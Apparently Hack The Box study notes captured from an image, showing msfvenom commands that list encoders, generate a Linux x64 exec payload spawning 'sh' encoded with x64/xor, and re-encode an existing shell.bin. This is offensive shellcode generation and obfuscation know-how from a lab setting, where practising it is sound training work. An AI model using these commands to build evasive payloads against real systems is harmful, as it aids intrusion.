 ```bash
la1n23@htb[/htb]$ msfvenom -l encoders

Framework Encoders [--encoder <value>]
======================================
    Name                          Rank       Description
    ----                          ----       -----------
    cmd/brace                     low        Bash Brace Expansion Command Encoder
    cmd/echo                      good       Echo Command Encoder

<SNIP>

# create and encoding
la1n23@htb[/htb]$ msfvenom -p 'linux/x64/exec' CMD='sh' -a 'x64' --platform 'linux' -f 'hex' -e 'x64/xor'

# encode existing one
msfvenom -p - -a 'x64' --platform 'linux' -f 'hex' -e 'x64/xor' < shell.bin
```